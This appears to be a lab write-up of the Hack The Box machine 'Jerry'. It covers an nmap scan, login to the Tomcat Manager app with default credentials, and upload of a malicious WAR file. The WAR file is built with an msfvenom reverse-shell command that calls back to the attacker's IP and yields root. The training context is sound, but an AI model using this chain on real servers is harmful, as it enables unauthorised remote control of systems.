








# Jerry

## Box Overview



Jerry is a easy rated windows box with a user rated difficulty of 2.9/10 at the time of writing.

Jerry is a relatively easy box that to get root access to the machine requires us to navigate to a webpage gain manager app access using default credentials and then upload and execute a war file to gain root access to the machine.

## Recon

### Nmap

As always we start our inital recon of the box using nmap.

```text
nmap -sC -sV 10.10.10.95
```



Now, looking at our nmap results we see that there is only one service found to be running by our scan. This to me says that we need to be using a more extensive scan incase there is another service running on a different port outside of our current scans range. However, we will first try the website and then come back to this if needed.

### Webpage

So, just before we start to directory bust the webpage we should go have a look at. Navigating to the page we are greeted with the default tomcat server page.



The first thing that catches my eye is the Manager app button on the top right of the page. Clicking this gives us a login pop up.



After trying some of the obvious default logins such as `admin:admin` and the like we still do not have access. So we click cancel. However this takes us to a error page. This is because we try to access the manager page without having manager access.



Looking through the error page we see a set of default login credentials. Lets try those. Success! We now have access to the manager app of the web server.



## Gaining user shell

Now that we have manger access looking through the manager app we see lots of information about the server as well as having the ability to upload war files. This would seem easy to abuse, just make a reverse shell war file and execute it.

To create our war file we are going to use msfvenom to create our payload. The command we are going to use is:

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST+10.10.14.11 LPORT=12345 -f war > shell.war
```

| Command | Explanation |
| :--- | :--- |
| -p | select the payload to use |
| LHOST | sets our ip address to be connected to by target |
| LPORT | sets our port to be connected to by the target |
| -f | Output format |

Naming the war file shell.war we upload this file to the server through the manager app.



Making sure that we have our listener running we then navigate to `10.10.10.95:8080/shell`. We should get a connection from the server.



Checking our privelleges we see that we are root.

